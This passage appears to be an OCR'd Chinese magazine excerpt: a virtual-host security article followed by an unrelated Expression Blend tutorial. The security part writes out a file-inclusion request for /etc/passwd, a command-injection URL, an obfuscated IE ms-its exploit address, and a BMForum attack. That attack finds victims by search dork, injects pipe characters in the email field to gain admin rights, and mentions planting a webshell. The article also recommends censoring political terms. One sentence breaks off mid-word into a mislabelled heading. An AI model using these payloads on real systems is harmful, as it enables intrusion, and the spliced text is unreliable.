| 变量滥用问题 | PHP 默认 register_globals = On，对于 GET、POST、Cookie、Environment、Session 的变量可以直接注册成全局变量。 | 配置文件 php.ini 设置 register_globals = Off，即要求程序员对作为判断的变量在程序最开始初始化一个值。 |
| 包含文件问题 | 极易受攻击的代码片段：<br>`<?`<br>`//test_1.php`<br>`if(file_exists($filename))`<br>`  include(“$filename”);`<br>`?>`<br>这种不负责任的代码会造成相当大的危害，攻击者用如下请求可以得到 /etc/passwd 文件：<br>http://localhost/test_1.php?filename=/etc/passwd | PHP 的包含函数有 include()、include_once()、require()、require_once。如果对包含文件名变量检查不严就会对系统造成严重危险，可以远程执行命令。因此，要求程序员对包含文件里的参数尽量不要使用变量，如果使用变量，就一定要严格检查要包含的文件名，绝对不能由用户任意指定。<br>前面文件打开中限制 PHP 操作路径是一个必要的选项。另外，如非特殊需要，一定要关闭 PHP 的远程文件打开功能。修改 php.ini 文件，重新启动 apache。allow_url_fopen = Off |
| 文件上传问题 | PHP 的文件上传机制是把用户上传的文件保存在 php.ini 的 upload_tmp_dir 定义的临时目录（默认是系统的临时目录，如：/tmp）里的一个类似 phpXxuoXG 的随机临时文件，程序执行结束，该临时文件也被删除。<br>攻击者可以把 PHP 文件拷贝成其它扩展名，泄漏脚本源代码。<br>攻击者可以自定义 form 里 file_name 变量的值，上传覆盖任意有写权限的文件。<br>攻击者还可以上传 PHP 脚本执行主机的命令。 | ?PHP-4.0.3 以后提供了 is_uploaded_file 和 move_uploaded_file 函数，可以检查操作的文件是否是用户上传的文件，从而避免把系统文件拷贝到 web 目录。<br>?使用 $HTTP_POST_FILES 数组来读取用户上传的文件变量。<br>?严格检查上传变量。<br>?把 PHP 脚本操作限制在 web 目录，避免程序员使用 copy 函数把系统文件拷贝到 web 目录。<br>?把 PHP 脚本用 phpencode 进行加密，避免由于 copy 操作泄漏源码。<br>?严格配置文件和目录的权限，只允许上传的目录能够让 nobody 用户可写。<br>?对于上传目录去掉 PHP 解释功能。 |
| 命令执行问题 | 由于程序没有过滤 $a_query 变量，所以攻击者可以用分号来追加执行命令。<br>`<?`<br>`//test_2.php`<br>`system("traceroute $a_query",$ret_strs);`<br>`?>`<br>攻击者输入如下请求可以执行 cat /etc/passwd 命令：<br>http://localhost/test_2.php?a_query=www.example.com;cat /etc/passwd | 要求程序员使用 escapeshellcmd() 函数过滤用户输入的 shell 命令。启用 safe_mode 可以杜绝很多执行命令的问题，不过要注意 PHP 的版本一定要是最新的，小于 PHP - 4.2.2 的都可能绕过 safe_mode 的限制去执行命令。<br>PHP 的命令执行函数还有 system()、passthru()、popen() 和 ` ` 等。命令执行函数非常危险，一定要慎用。如果要使用一定要严格检查用户输入。 |
| sql_inject 问题 | SQL 语句如果未对变量进行处理就会存在问题 | 要求程序员对所有用户提交的要放到 SQL 语句的变量进行过滤。即使是数字类型的字段，变量也要用单引号扩起来，MySQL 自己会把字符串处理成数字。在 MySQL 里不要给 PHP 程序高级别权限的用户，只允许对自己的库进行操作。 |

SQL 语句如果未对变量进行处理就会存在问题

## 3. JSP虚拟主机的安全配置与防护

JSP是Sun公司推出的新一代网站开发语言，Sun公司借助自己在Java上的不凡造诣，将Java从Java应用程序和Java Applet之外，结出了新的硕果：JSP（Java Server Page）。JSP可以在Servlet和JavaBean的支持下，完成功能强大的站点程序。按照Sun的说法，JSP能够适应市场上包括Apache WebServer、IIS在内的85%的服务器产品。不过，随着JSP技术的不断红火，其安全问题也越来越引人注目。

#### （1）工具准备

为了保证本文调试的正确性，现在推荐一些比较经典的工具，以达到一致的调试效果。
JDK官方站点：http://java.sun.com/j2se/1.4.2/download.html
Tomcat官方站点：http://jakarta.apache.org/tomcat/index.html

### （2）安装Java 2 SDK

如图17所示。



#### （3）环境变量设置

以Windows 2000/XP为例，假设jdk的安装目录为：c:\jdk1.4。

- ①使用鼠标右键单击“我的电脑”，在菜单中选择“属性”，打开“高级”选项卡，然后单击“环境变量”。
- ②在“系统变量”栏中，单击“新建”按钮，在“变量名”后填入“JAVA_HOME”，在“变量值”后填入“c:\jdk1.4”。
- ③继续单击“新建”按钮，在“变量名”后填入“classpath”，在“变量值”后填入“.;%JAVA_HOME%\lib\dt.jar;%JAVA_HOME%\lib\tools.jar;”（.不能少，因为它代表当前路径）。
- ④在“系统变量”栏中，编辑变量“Path”，在变量值的最前面加上“%JAVA_HOME%\bin;”。注意本文中的“”不要加入，如图18所示。



- ⑤接着可以写一个简单的java程序来测试J2SDK是否已安装成功：

```
public class Test{
public static void main(String args[]){
System.out.println("J2SDK安装成功！");
}
}
```

将上面的这段程序保存为文件名为Test.java的文件。

- ⑥打开命令提示符窗口，cd到你的Test.java所在目录，然后键入下面的命令：

```
javac Test.java
java Test
```

此时如果看到“J2SDK安装成功！”，表示安装成功。

### （4）安装Tomcat测试环境

安装Tomcat时，需要配置端口和管理密码，默认的端口为8080。接着可以启动tomcat，在IE中访问http://localhost:8080。如果看到tomcat的欢迎页面的话说明安装成功了。如果需要测试servlet，还要在“环境变量”设置窗口的“系统变量”中添加以下环境变量（假设tomcat安装在d:\Tomcat 5.0）：
CATALINA_HOME=d:\Tomcat 5.0;

修改环境变量中的classpath，将tomcat安装目录下的common\lib下的servlet.jar追加到classpath中去，修改后的classpath如下：
classpath=.;%JAVA_HOME%\lib\dt.jar;%JAVA_HOME%\lib\tools.jar;%CATALINA_HOME%\common\lib\servlet.jar;

通过上面典型测试环境的讲述，我们已经可以在本地轻松的完成各种网络程序和其他操作系统的测试，在面对各种各样的漏洞时，就能真正做到：“兵来将挡，水来土掩”了。不过，孙悟空也有七十二变呢！以上测试环境并非唯一选择，还可以结合resin、Apache等web服务器，轻松打造各种性能卓越的虚拟主机配置环境。

不过，在虚拟主机安全防范过程中，环境配置并不能够保证主机的绝对安全。因为，不严格的程序漏洞也会给虚拟主机安全带来颠覆性的灾难。当一个网站完全建立以后，程序就会很多，特别是服务器与用户的交互程序会很多。如果程序员没有足够的经验或者没有强烈的安全意识，程序的漏洞就会很多，给网站带来不可估量的安全隐患。

## 三、联袂出击: 严格网络编程确保虚拟主机安全

编程漏洞是怎么形成的呢？首先，我们来看看网页编程的特点。

### 1.网络编程中的典型漏洞

之所以采用各种语言来设计网站而不直接采用HTML，目的就是为了更好的管理网站资源，增加网站与浏览者之间的交互。所以，在网站设计的时候，一些常见的交互编程是少不了的，比如留言板、BBS论坛，聊天室等，这些程序最大的共同点就是用户输入很多资料，通过这些资料与其他浏览者交流或者与网站管理者交流。而交互的特点，正是漏洞形成的一大原因，因为用户输入信息

是不可预测的，如果程序没有考虑到一些安全问题，用户输入就有可能成为攻击事件，不管有意还是无意。在部分传统程序员眼中，网页程序设计其实不能称为程序员，他们认为网页程序设计，只需要美工好就可以了，完全没有技巧可言。之所以形成这种观点，有几个原因。一是网页编程相对比较简单，变化较少，基本上，网页编程可以很简单的概括出几个类型：留言板、论坛、聊天室、邮件列表、新闻发布、软件下载等，而这些类型的编程，大部分都有模式可循，和传统编程相比，的确比较简单，容易掌握；二是网页编程人员大部分半道出家，专业的程序员相对较少，编程的系统训练较少，可能编程的基础也比较弱，所以，编程方面可能还是有一些缺陷的；三是部分网站直接下载网上免费程序来建立网站，这些程序的健壮性、安全性都没有严格考虑，如果网站采用者不自己修改这些程序而直接照搬的话，很可能存在严重安全问题。网页编程相对比较简单，漏洞的形成实例虽然很多，但是，都有一些内在的共同点可以寻找，在此归纳出一些共同的特点，供大家参考。

#### (1)用户输入验证不全面

在几乎所有安全的网络程序中，第一道防线就是检查用户所接收到的每一条数据。这与防火墙保护计算机的原理很类似；它不能预防所有的攻击，但它可以让一个程序更加稳定。这个过程叫做检查、验证或者过滤你的输入。一个明显的问题是，在何处执行检查？是在数据最初进入程序时，或者是在一个低层次的例程在实际使用这些数据时？通常，最好在这两处都对其进行检查；这样，即使一个攻击者成功地突破了一道防线，他们还会遇到另一道。最重要的规则是所有的数据必须在使用之前被检查。

小技巧：

- 1. 输入信息长度验证。如果用户输入的信息达到几个兆，而我们的程序又没有验证长度的话，危害就有：程序验证出错；变量占用大量内存，出现内存溢出，至使服务器服务停止甚至关机。
- 2. 输入信息敏感字符检查。比如在设计留言版的时候，我们会将“<”等符号的信息去除，以免用户留言页面炸弹。但是，是否这些就已经足够了呢？还远远不够。如留言版内容信息的过滤、用户名信息的过滤、Email信息的验证、搜索信息的验证，都要考虑进行验证！例外，特别提醒：那些从网上下载回来的程序，一般不适宜于直接使用，因为它们的原代码都可以被所有人知道，安全性当然不是很好。在这种情况下，我们一般验证一些常见的用于数据库操作的语句，必然搜索信息是否含有“Select”等，这样来限制用户输入，避免信息的泄露。

#### (2)内容的检测不严格

一个网站的设计完成，除了技术的完善以外，还需要这个网站在国家法律法规内发布信息，不能随意让自己的网站成为一些别有用心的人发布不法信息的平台。所以，我们有必要对所有用户输入而且有可能显示给其他用户的信息进行内容检测，一般有几类：粗话的检测，一般我们检测一些常见的粗话；敏感词汇的检测，比如“法轮”“明慧”等这些词；关系政治的词汇，最好全部过滤，比如“共产党”等；国家领导人的姓名，最好过滤。当然，以上的一些规则，不一定全部要这样，可以根据自己留言、或者论坛的性质来决定那些需要严格过滤。

#### (3)页面行为方式编程不严格

在一般的网站中，注册新用户的时候，一般会首先要求用户输入自己需要注册的账号信息，以此来验证该账号是否已经存在，确保用户的单一性，如动网论坛等注册新用户时的要求。然而，如果编程不谨慎，却容易造成一个很大的漏洞。我们知道，HTML文件是可以阅读源代码并且也可以直接保存的，如果用户将注册通过的页面保存并且将上面的账号信息修改为一个已经存在的账号，由于程序认为该账号已经通过检测，于是，直接将该账号插入数据库，结果，原来拥有该账号的用户就被删除或者信息被修改了。而如果这个账号刚好是一个管理员账号，结果会怎样呢？可能我们认为以上的情况很简单，但是以这种方式编程的程序员却很多，随便在网上找，我们可以找到很多这种方式编程的源代码和已经采用的程序。说到这里，可能很多用户开始怀疑网络程序的安全性，确实是这样吗？实际上，看看网络上横行的论坛漏洞，无论是ASP、JSP还是PHP，类似的问题都可能存在。那么，这些安装了相关代码的虚拟主机是如何被入侵的呢？

### 2.案例一：ASP虚拟主机中的代码分析

关于ASP，各种网络和安全杂志上面介绍的很多了，关于它的漏洞也是层出不穷。当然，通过ASP，很多普通的菜鸟也摇身转变为大虾。也许，看着五彩缤纷的ASP世界时，我们不禁要惊呼：网络越来越神奇了。不过，随着网页中加入更多的图片、动画、特效代码，安全与执行的效率问题却伴随着个性化的页面接踵而来。某日，登陆国内某名牌大学的网站，竟然发现其代码具有攻击性。看得出来，这个站点代码是经过了站长千挑万选的，网站经过改造后才有了现在的模样，如图19所示。



根据提示，这是一个典型的Bloodhound.Exploit.6病毒！而这个问题居然出现在一所大学的校园网上，可见，日常上网时，轻易的相信某些网站只能让自己遭受攻击。不过，从另一个角度来说，强大的动态网页技术使得网页会有非同寻常的变化，Windows的界面、Flash的动态效果、随风荡漾的水波纹，这些都已经成为网页代码设计者的最## 3. 案例二：PHP 代码过滤不严的漏洞

但是，“炫耀”这些战果的同时，我们必须对浏览页面的用户负责：必须保证这些代码的安全和执行效率。打开这个学院的网站地址并查看其网页源代码后，可以判断，这是一个 Microsoft Internet Explorer 跨站脚本漏洞，用户运行 IE 时，攻击者可执行任意代码，或者在其他域的网站上读取并操作数据。比如，它可以诱导受害者去浏览一个像网页一样的 HTML 文档或者 HTML 的邮件信息，通过运行本机域（Local Machine Zone）脚本，攻击者能够利用正在使用 IE 用户的权限来执行任意代码、读取或更改其他网站数据，包括读取 cookies 的内容以及更改或者创建目录。其危害性可想而知！再看看，我们会发现，一个恶意网址或邮件信息可能包含类似如下的 HTML 地址也就不奇怪了：

```
ms-its:mhtml:file://C:\nosuchfile.mht!http://www.example.com//exploit_chm::exploit_html
```

此 URL 故意进行了修正避免防病毒软件的检测，这个地址中，HTML 和 exploit.html 的脚本将会在本机域（Local Machine Zone）的安全环境下执行。这是对于 exploit.html 的通常惯例，或者包含或者下载一个可运行的文档，例如，后门、特洛伊木马、病毒、机器人、或其他恶意代码。因此，必须注意在 HTTP 内容检查或防病毒软件中注意加密 URL 的可能性。

蓝色魔法论坛是一个用 PHP 编写的论坛，由于注册用户中的一些代码缺陷，如果用户注册时用个小技巧，就可以将普通用户提升为管理员。首先选择“Powered by BMForum Plus!”这样的独特标志作为关键字，到百度、Google 等网站进行搜索，无数的目标凸现在我们眼前。特征代码越准确，就越容易找到受害者的论坛。下面，随便挑选一个有漏洞的论坛（类似的版本还有很多），通过伪造“|”使程序在读用户等级时将之判断为管理员。单击“注册”按钮，进入注册页面，在填写邮箱地址时，输入 t e s t @ t e s t . com|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|，通过认证后，这个刚注册的新用户就变成了管理员。进入“管理中心”，就可以看到管理页面了。在这里，恶意的用户就可以做很多事情了，比如上传文件构造一个 Webshell。

关于代码的安全，可以从以下两个角度来分析：

- （1）随时关注其最新安全动态和补丁
以蓝色魔法论坛为例，可以登录其官方站点 http://www.bmforum.com，找到补丁相关的栏目，如 http://www.bmforum.com/bmb/forums.php?forumid=4 这个地址，看看论坛最新的补丁，这也是对自己和客户负责的一种行为。

- （2）读代码的问题
现在，由于很多论坛的安装十分智能化，很多使用者也懒得去看代码是如何实现功能的，直接点击“下一步”或者直接上传到服务器上就万事大吉了。这其实是一个不好的习惯，知其然的同时也要知其所以然，通过仔细阅读并理解代码，才能真正找到出现问题的地方。


# 超级软件教程

## "Flash杀手"

### ——微软交互式动画创作工具Expression Blend简明教程

文 / 张金贵

在互联网上，Flash动画是如日中天，它以交互性强，文件体积小等特点，逐渐成为了交互式矢量动画的标准，占据了网络多媒体动画市场的大部分份额。为了和Adobe公司的Flash竞争，在网络动画市场分一杯羹，微软公司推出了一款号称“Flash杀手”的网络动画创作工具Expression Blend。Expression Blend矛头直指Flash，它使用简单，功能强大，无须撰写代码就可以快速创建一个交互式的网络动画。作为一个新的交互式动画创作工具，微软公司不但吸收了许多同类软件的优点，而且融入了许多新的技术，通过全新的设计理念，为设计者和开发者提供了强大的设计能力。如果你想尝试Expression Blend中的创新特性——例如丰富的2D和3D图形、动画、动态布局、数据绑定、类型和模板编辑、以及资源管理——在Windows平台上为Microsoft .NET Frameworks 3.0应用程序构建用户体验，Expression Blend将是一个很好的选择。我们有理由相信，凭着微软强大的技术实力和推广能力，Expression Blend必将会成为网络动画的一个新标准，获得越来越多用户的青睐。

### 一、简介

Expression Blend紧跟最新的WinFX技术，是以Windows Vista操作系统中心的WinFX编程模型为基础的交互式动画创作工具，它采用Vista显示系统技术WPF开发，支持XAML、C#和VB.net，可以单独开发动画，也可以配合Visual Studio开发出基于Windows平台的丰富、复杂的应用程序。Expression Blend引入了一种全新的扩展应用程序标记语言XAML作为在设计人员和开发人员之间的通信格式，这是一种用来描述应用程序用户界面、文档和媒体内容的标记语言。Expression Blend就是一款编辑XAML语言的所见即所得的编辑工具，利用它可以将文本、图像、声音、3D模型、数据、控件、自定义样式等界面要素组合成一个引人注目的全新界面，从而生成XAML代码以供开发人员共享。

Expression Blend的主要功能有：

- ◆ Expression Blend支持多种元素，它可以将矢量图形、位图、3D内容、视频、音频、数据和富文本合成到一起，其中3D内容可以自由地混合到其它元素之间，并且允许在不同的元素间进行功能强大的可视化交互。
- ◆ Expression Blend可以导入与合并矢量图形和位图像素，或者绘制与编辑矢量图元素并应用高级渐变、Alpha透明度和画笔设置。
- ◆ Expression Blend中可以添加3D图形与动画，并能够对添加的3D对象进行控制。
- ◆ Expression Blend可以制作高质量交互式视频，包括高清（HD）视频，视频的分辨率与质量设置非常宽广。
- ◆ 支持富文本排版功能，支持项目符号、编号列表和文本块功能，包含多种容器，可以轻松实现图文混排。
- ◆ Expression Blend提供了众多标准控件，利用这些控件可以快速设计出复杂的用户界面，也可以很方便地将多个控件元素合成为一个复杂控件。
- ◆ 在Expression Blend不用编写代码就可以对控件的外观进行控制，同时可以在控件的某种状态中添加动画、图形、3D内容、视频，并将它们作为设计元素。
- ◆ 利用自动化容器可以设计出根据目标显示分辨率自由调整大小的用户界面。
- ◆ 在设计时可以播放音频和视频文件，并且可以直接在时间线上与所有其它动画属性一起设置交互式触发事件。
- ◆ 可以用一个对象的任何属性创建独立的关键帧。
- ◆ 界面元素或控件可以绑定到外部数据或其它元素属性，在设计时可以实时预览数据。
- ◆ Expression Blend可以与Expression套件中的其它软件（如Design）共享工作流程，可以直接导入其它第三方设计工具设计的图形。
- ◆ 与Visual Studio共享工程和开发代码，使用XAML往返功能可以与其它第三方软件的设计与开发环境共享设计元素。

### 二、安装要求

Expression Blend对系统的软硬件要求都较高，为了保证Expression Blend能够正常运行，请先了解一下Expression Blend所要求的软硬件配置。

#### 1. 推荐的硬件配置

- 处理器：Intel奔腾或者AMD处理器，2.0 GHz或者更高。
- 内存：1GB或者更高。
- 磁盘空间：350MB。
- 显示：支持1280 x 1024分辨率，32位颜色的显示器。
- 显卡：支持Microsoft DirectX 9的显卡，256 MB或更高显存，例如，ATI Radeon X300 或 NVIDIA GeForce 5600 级别或更高。

#### 2. 系统要求

Expression Blend 只能安装在 Windows Vista 和 Windows XP SP2 操作系统上，Expression Blend 程序可以从网上免费下载得到。

（1）Windows Vista 用户
下载并安装 Expression Blend。当提示输入序列号时，点击 Continue 按钮获得免费 30 天的试用。下载并安装 Visual Studio 2005 Express（Visual Basic 或 C#）。

（2）Windows XP SP2 用户
在安装 Expression Blend 之前，先安装 .NET Framework 3.0。下载并安装 Expression Blend。当提示输入序列号时，点击 Continue 按钮获得免费 30 天的试用。下载并安装 Visual Studio 2005 Express（Visual Basic 或 C#）。

为了保证在 Expression Blend 中音频和视频能正常的工作，请确保安装了 Microsoft Windows Media Player 10。

注意：Windows .NET Framework 3.0 和 Visual Studio 2005 Express 都可以从网上免费下载。Visual Studio 2005 Express 是一个可选择项，如果你不想进行更高级的编程操作，也可以不安装。

### 三、熟悉用户界面

安装完毕，启动 Expression Blend，出现一个注册画面（见图 1），如果你有一个注册号，可以选择 I have a product key and want to license microsoft expression blend 选项，然后在文本框中输入密码；如果你没有注册号，选中 Continue using the trial version of the product 选项，可以免费使用 30 天。单击 Continue 按钮，在 Expression Blend 启动画面中选择 Projects 标签页，然后单击 New Project，在创建新工程对话框中单击 Standard Application（.exe）图标，然后单击 OK 按钮，就可以进入 Expression Blend。



Expression Blend 的操作界面跟我们常见的软件如 Photoshop、Dreamweaver 类似，由菜单、工作区和浮动在窗口上的各种控制面板组成（见图 2）。



窗口的中间是应用程序的编辑区，所有的编辑操作都在这个窗口中完成，在 Expression Blend 中，这个工作区被称为艺术板。

窗口的四周是各种面板，有工具箱（toolbox）、交互面板（interaction）、工程面板（Project）、属性面板（Properties）、资源面板（resources），利用这些面板可以完成对应用程序和对象的编辑和操作。下面就分别来了解各种面板的作用。

#### 1. 工具箱

工具箱用来在应用程序中创建和操作对象，它包括以下几种工具（见图 3）：

选择工具：2 种，用来选择和直接选择对象和路径。

查看工具：3 种，用来调整艺术板的视图，例如移动、放大、旋转。

画笔工具：3 种，用来改变对象的可视化属性，例如变换画笔。

对象工具：5 种，每种类型下面又包含多种对象，用来在艺术板上绘制最常用的对象，如路径、形状、文本、控件等。

资源工具：用来访问资源库中的资源，资源库中包含多种控件。

在工具箱中选中一个工具，然后在艺术板中拖动鼠标就可以绘制出一个对象；也可以直接在工具箱中双击某个工具，它就会在艺术板中自动添加一个默认大小的对象。



#### 2. 工程面板

工程面板列出了与工程有关联的所有文件，包括引用的图像和视频、链接的项目、资源字典、隐藏代码文件以及链接的数据源文件等内容。

#### 3. 属性面板

用来设置对象的外观、画笔、布局、文本、变换等属性，依据所选对象的种类不同，属性面板中同步显示相应的属性设置参数。属性面板有完全模式和迷你模式两种工作模式。

#### 4. 资源面板

资源面板显示当前打开工程中使用的所有资源。

#### 5. 交互面板

交互面板用来帮助用户实现交互功能，它包括触发器（Triggers）、对象和时间线（Objects And Timeline）两部分。在触发器面板中可以设置事件动作，在对象和时间线面板上可以创建动画（见图 4），利用交互面板可以做以下事情：



# 超级软件教程

- 查看艺术板上所有对象的层级结构。
- 选中对象以便进行修改。
- 创建和修改控件对象模板。
- 创建和修改动画时间线。
- 创建和修改选中对象的触发器。

#### 6. 调整工作区

在Expression Blend中有多种方法可以调整工作区以满足你的需要和喜好。

##### （1）改变主题

单击Tools → Options，在打开的选项对话框中选择Workspace，然后从Theme下拉菜单中选择Expression Dark（黑暗的）或Expression Light（明亮的）界面主题（见图5）。



##### （2）改变艺术板的背景色

还是单击Tools → Options，在打开的对话框中选择Artboard，然后在Background区域中选中Color，单击右边的颜色块，打开颜色编辑器，可以设置一种背景颜色。

##### （3）改变编辑视图

单击艺术板右上角的Design和Xaml标签，可以在设计视图和代码视图间进行切换，也可以直接使用F11和F12键进行切换。

##### （4）改变工作区

Expression Blend有Design Workspace（设计工作区）和Animation Workspace（动画工作区）两种外观样式，前者主要用于对象设计，后者主要用于动画设计，你可以根据需要随时进行切换。方法是：单击Windows菜单，在下拉菜单中选择Design Workspace或Animation Workspace命令。

##### （5）浮动面板和调整面板大小

在每个面板的右上角都有一个Float（浮动）按钮，单击它可以让面板处于浮动状态，然后你可以拖动面板将它移到窗口中的任何位置。
当面板处于浮动状态时，在它的右上角有一个Dock（停放）按钮，单击它可以让浮动面板恢复原始停放状态。
面板处在浮动状态时，单击面板右下角的调整大小句柄拖动，可以调整面板的大小。
面板处在停放状态时，将鼠标移到面板的左、右边框上或者在面板内的分隔条上，鼠标变成双箭头状，拖动鼠标也可以调整面板的大小。

##### （6）添加 / 删除面板

单击Windows菜单，在下拉菜单中选中或取消相应的命令就可以在工作区中添加或删除该面板。

##### （7）显示 / 隐藏面板

单击F4或TAB键可以让工作区中所有的面板显示 / 隐藏，以腾出更多的空间用来进行对象的编辑。

##### （8）缩放大小和改变位置

单击Tools → Options命令，在打开的对话框中选择Workspace，然后在Workspace Zoom框中输入值，可以放大或缩小工作区。
单击艺术板右下角Zoom框旁边的下拉菜单，选择一个值或直接输入一个值，可以放大或缩小艺术板。
在工具箱中选中Pan工具，然后在工作区中拖动艺术板，可以移动艺术板的位置。

##### （9）改变抓取和抓取网格设置

可以在工作区中显示网格线，以便于旋转和排列对象。单击Tools → Options命令，在打开的对话框中选择Artboard，然后在Snapping下调整设置。

### 四、快速上手

下面通过一个简单的动画实例，让你体会Expression Blend创建动画的完整流程和操作的简便性。这个动画的效果是这样的：当鼠标移动到一个按钮上时，一个椭圆慢慢地从左向右移动，当鼠标移出按钮时，椭圆停止移动。
尽管有许多操作你目前可能还不能理解它，但只要按照说明一步步操作，你就可以创建出一个动画。其中涉及到的内容，我们在后面会逐一进行讲解。

这个动画的具体操作如下：

启动Expression Blend，新建一个工程。在工具箱中单击Button工具选中它，然后在艺术板中拖动绘制出一个按钮。单击Windows → Animation Workspace命令，切换到动画工作区模式，以便进行下面的动画编辑工作。

在Interaction面板上的Objects And Timeline窗格中单击右上角的Create New Timeline按钮也就是加号按钮（见图6）。



弹出创建艺术板资源对话框，在Resource Name（Key）文字框中系统已经自动给要创建的时间线起了个名字，当然你也可以自己重新命名，单击Ok按钮（见图7）。



在Objects And Timeline窗格中进入时间线编辑状态（见图8）。在工具箱中选中Ellipse工具，然后在艺术板的左侧拖动，绘制出一个椭圆。单击Properties面板，在Brushes区域中，单击Solid Color Brush，然后在下面的颜色编辑器中单击选择一种颜色（见图9）。



这个颜色将应用到椭圆上。同时在Objects And Timeline中给Ellipse在初始位置0秒处创建了一个关键帧（一个白色椭圆图标）。

在Objects And Timeline中的时间线上拖动黄色的拖放头到“3”秒位置处。在工具箱中单击Selection工具选中它，然后在艺术板上单击拖动椭圆移动到右侧一个适当的位置停止，Ellipse就会在3秒处又创建一个关键帧，同时在0~3秒之间出现一个白色条，表明这个时间线动画已建立好（见图10）。可以单击时间线上方的播放按钮来浏览这个椭圆移动的动画。





下面我们来给按钮添加控制事件，用鼠标移入和移出按钮来控制椭圆动画的播放和停止。

在Objects And Timeline左侧的对象列表中单击Button选中我们创建的按钮对象。在Objects And Timeline面板上的Triggers窗格中，单击Windows.Load事件，在下面就会出现该事件的详细设置（见图11）。在Windows下拉框中选择Button，在Loaded下拉框中选择Mouse Enter，也就是鼠标进入按钮的事件。由于系统默认的是自动播放动画，所以下面的Timeline1和Begin事件行为就不用改动。


创建鼠标移出按钮的事件。在Triggers窗格中单击Event按钮，添加一个新的Windows.Loaded事件。选中这个新添加的Windows.Loaded事件，在Window下拉框中选择Button，在Loaded下拉框中选择Mouse Leave。单击When Button Mouseleave Is Raised右边的加号按钮，添加一个新动作，然后在Begin下拉菜单中选择Stop。单击Project→Test Project命令或直接按F5键，开始测试动画。在测试窗口中将鼠标移到按钮上，椭圆开始从左向右移动；将鼠标移出按钮，移动停止。

### 五、管理工程

在Expression Blend中，一个工程的所有文件都组织在一个单一的Project文件夹中。在Project面板中显示出当前工程中包含的所有文件和引用，利用Project面板可以很好的实现工程文件的管理。

#### 1. 创建工程

要想创建一个新的应用程序或控件库，首先要创建一个工程，然后在工程中添加各种界面元素和交互。

创建新工程的步骤是：单击File→New Project命令，打开创建新工程对话框（见图12）。在Select A Project Type列表中选择要创建的工程类型，有EXE文件和控件库，这里我们选择创建EXE文件，请单击Standard Application (.Exe)选项选中它。在Name文字框中输入新工程的名字，单击Browse按钮，确定工程文件保存的位置；在Language下拉菜单中选择一种程序设计语言（C#或VB），这里我们选择C#。



单击OK，一个新工程就建立好了。

#### 2. 创建文档

利用这种方法创建的是一个包含在工程中的文档，可以通过工程中的其它元素访问到它。单击File→New Item命令，打开添加新项目对话框。在对话框中有四个选项，可根据需要进行相关选择。

最后在Name框中输入新项目的名称。单击OK按钮。

#### 3. 打开工程

单击File→Open Project命令，然后打开工程文件（.Csproj或.Vbproj）。

在File→Recent Projects子菜单中可以快速打开最近编辑过的文件。

单击Help→Welcome Screen命令，在欢迎屏幕中单击Projects标签，也可以在其中打开最近编辑过的文档或单击Open Project按钮打开一个工程文件。

#### 4. 快速浏览工程文件夹

单击Project→Explore Project命令，可以快速打开当前工程文件夹，浏览当前工程包含的各种文件。

#### 5. 在工程中创建一个新文件夹

单击Project→New Folder命令，在Project面板Files窗格中出现一个新文件夹。单击这个新文件夹名，输入一个新名字。保存一个文档或工程。单击File→Save命令，保存当前文档。单击File→Save All命令保存工程中的所有文档。

#### 6. 关闭文档或工程

单击File→Close命令关闭当前文档。单击File→Close All命令关闭所有打开的文档。单击File→Close Project命令关闭当前工程。

#### 7. 删除一个文档、项目或工程

删除一个文档或项目。在Project面板Files窗格中，右键单击你想要删除的文档或项目，在弹出的菜单中单击Delete命令。

# 超级软件教程

删除一个工程。单击 File → Close Project 命令关闭当前工程。在“我的电脑”中打开工程保存的目录，然后按 Delete 键删除整个文件夹。

#### 8. 复制/粘贴一个文档或项目

在 Project 面板 Files 窗格中，右键单击你想要复制的文档或项目，然后单击 Copy 命令。如果你想粘贴这个文档或项目到工程文件夹树的其它位置，请选中要粘贴的文件夹，然后右键单击，选 Paste 命令。

#### 9. 剪切一个文档或项目

在 Project 面板 Files 窗格中，右键单击你想要剪切的文档或项目，然后单击 Cut 命令。如果你想将这个剪切的文档或项目粘贴到工程文件夹树中的其它位置，请选中要粘贴的文件夹，然后右键单击，选 Paste 命令。

#### 10. 向工程中添加链接或删除一个项目

我们可以向一个工程中添加声音、图片、视频、3D 对象等元素，这些元素可以直接添加到工程中，也可是一个链接。

- 1. 向工程中添加一个项目

单击 Project→Add Existing Item 命令，打开添加存在的项目对话框。选中你想要添加到当前工程中的项目文件，如 MP3 音乐、JPG 图片、3D 对象等。单击“打开”按钮，选中的元素将被复制到工程文件夹中，并且显示在 Project 面板 Files 窗格下。

- 2. 链接到一个项目

单击 Project→Link To Existing Item 命令，打开链接项目对话框。浏览找到你想要链接到当前工程中的项目，选中它，单击“打开”按钮。这个引用将添加到工程文件夹中，并且显示在 Project 面板 Files 窗格下，它添加的只是一个链接，真实的文件并未复制到当前工程文件夹中。

- 3. 移除一个项目

在 Project 面板 Files 窗格中，右键单击你要移除的项目，单击 Remove From Project 命令，即可将选中的项目从 Files 列表中移除。需要注意的是：这个操作仅仅是将项目从 Files 列表中移除掉，它并没有从工程文件夹中将该项目删除掉。如果想从工程文件夹中永久地删除项目，请在 Project 面板 Files 窗格中右键单击项目，然后单击 Delete 命令，则该项目不但从 Files 列表中被删除掉，同时也从工程文件夹中被删除掉了。

#### 11. 添加/删除一个引用

你可以向 Expression Blend 工程中添加一个 .NET Framework 3.0 集合或 COM 库的引用，被添加的引用将保存在 Project 面板 Files 窗格中的 References 文件夹中。

- 1. 添加一个引用

单击 Project→Add Reference 命令，打开添加引用对话框。选中你要添加到当前工程中的集合或 COM 库（.Exe 或 .Dll），单击“打开”按钮。一个引用就被添加到 Project 面板 Files 窗格中的 Reference 目录中。注意，这个引用指向的项目并不会添加到工程中。

- 2. 删除一个引用

在 Project 面板 Files 窗格中，单击 Reference 目录左边的三角按钮展开它，然后右键单击你想移除的引用，从弹出的菜单中选择 Remove From Project 命令，即可把该引用从工程中删除，但它不会从计算机中删除被引用的项目。

#### 12. 向文档中插入一个项目

添加到 Project 面板 Files 目录中的项目，必须添加到文档中才能够被编辑和使用。添加的具体操作是：在 Project 面板 Files 窗格中，右键单击要添加到文档中的项目，如一个 MP3 文件或 JPG 图片，然后在弹出的菜单中单击 Insert 命令，这个项目就被添加到文档中。

#### 13. 改变活动文档

如果你同时打开了多个文档，你可以在它们之间切换来指定哪个文档是当前活动文档。方法是：在艺术板的顶部，直接单击你想要查看的文档标签。在 Windows 菜单中，单击你想查看的文档的名字。在 Project 面板 Files 窗格中直接双击你想要的文档。

#### 14. 重命名工程文件

